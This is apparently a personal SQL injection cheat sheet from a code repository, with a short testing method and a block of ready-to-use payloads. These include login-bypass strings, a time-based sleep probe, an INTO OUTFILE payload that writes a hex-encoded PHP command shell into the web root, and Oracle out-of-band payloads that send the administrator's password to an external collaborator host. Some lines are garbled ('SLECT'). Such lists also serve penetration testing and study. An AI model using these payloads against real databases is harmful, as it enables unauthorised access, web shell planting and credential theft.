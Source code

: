 # SQLI METHOD
1. Find entry Points e.g. params cookies etc
2. Find valid and invalid values
3. Attempt to break with ' or "
4. If response changes repair the SQL querry
5. If repair diff from broken querry may have SQLI 

## How to Repair

<ul>
  <li>' >> ' '</li>
  <li>' >> '||'</li>
  <li>' >> '+' or '%2b'</li>
  <li>' >>' AND '1'='1</li>
  <li>' >> ' -- -</li>
</ul>

Repairs for Int
'(quote) will break >>Syntax even if Repaired just try to start with a Space
<ul>
  <li>-- -</li>
  <li> AND 1=1 </li>
  <li>AND 1=1 -- -</li>
</ul>

## INJECTS
```
'+OR+1=1--

=1' OR '1'='1
 
=1' OR '1'='1'--+

=1'+UNION+SLECT+1,2,3,4,5+FROM+TABLE    ?!?!?

'XOR(if(now()=sysdate(),sleep(5*5),0))OR'

value' INTO OUTFILE '/var/www/html/shelll.php' LINES TERMINATED BY 'union select 1,unhex('3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E') INTO OUTFILE '/var/www/html/shell1.php' from webapp.queue-- -

 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()
 union select "1 order by 1-- -",2,3 from information_schema.tables where table_schema=database()
```
## OutOfBound injection
### Oracle
```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```
